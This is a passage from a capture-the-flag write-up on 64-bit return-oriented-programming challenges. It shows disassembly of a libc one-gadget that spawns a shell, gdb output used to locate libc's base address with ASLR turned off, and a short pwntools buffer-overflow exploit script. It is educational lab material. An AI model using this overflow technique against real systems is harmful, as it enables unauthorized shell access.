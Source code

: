 ```text
  XERXES wishes you
      a NICE day.
flag{challenge-completed}
\x89��o��
$ 
```

Got the flag. Moving on to the final challenge. 

### Level 2

I had to cheat on this one a bit by turning off ASLR. Due to the nature of addressing on 64-bit systems, null bytes become a really big problem. For this particular challenge, it's easy to overwrite RIP, but I could only return to a single gadget due to the null bytes. The gadget I picked is a one-gadget-RCE from libc that executes execve("/bin/sh") to give me an instant shell. Using Hopper, I searched for references to "/bin/sh" that was followed by a call to execve(). I picked this one: 

```
00000000000d48e7         mov        rax, qword [ds:0x3a2ea8]
00000000000d48ee         lea        rsi, qword [ss:rsp+var_168]
00000000000d48f3         lea        rdi, qword [ds:0x161160]                    ; "/bin/sh"
00000000000d48fa         mov        rdx, qword [ds:rax]
00000000000d48fd         call       execve
```

Since ASLR is disabled, libc's base address won't change during execution. So adding the offset 0xd48e7 to libc's base address gives me the address I need to return to. First off, I needed libc's base address: 

```
gdb-peda$ vmmap
Start              End                Perm  Name
0x00400000         0x00401000         r-xp  /root/rop64/2/level2
0x00600000         0x00601000         rw-p  /root/rop64/2/level2
0x00007ffff7a33000 0x00007ffff7bd2000 r-xp  /lib/x86_64-linux-gnu/libc-2.19.so
.
.
.
```

Next add the offset and make sure I'm getting the same instructions I got from Hopper: 

```
gdb-peda$ x/10i 0xd48e7 + 0x00007ffff7a33000
   0x7ffff7b078e7 <exec_comm+1767>: mov    rax,QWORD PTR [rip+0x2ce5ba]        # 0x7ffff7dd5ea8
   0x7ffff7b078ee <exec_comm+1774>: lea    rsi,[rsp+0x70]
   0x7ffff7b078f3 <exec_comm+1779>: lea    rdi,[rip+0x8c866]        # 0x7ffff7b94160
   0x7ffff7b078fa <exec_comm+1786>: mov    rdx,QWORD PTR [rax]
   0x7ffff7b078fd <exec_comm+1789>: call   0x7ffff7aeaae0 <__execve>
```

Looks good! So I just need return to 0x7ffff7b078e7 to get my shell. Here's the final exploit: 

```python
#!/usr/bin/env python

from pwn import *

buf = ""
buf += "A"*40
buf += p64(0x7ffff7b078e7)
print buf
```
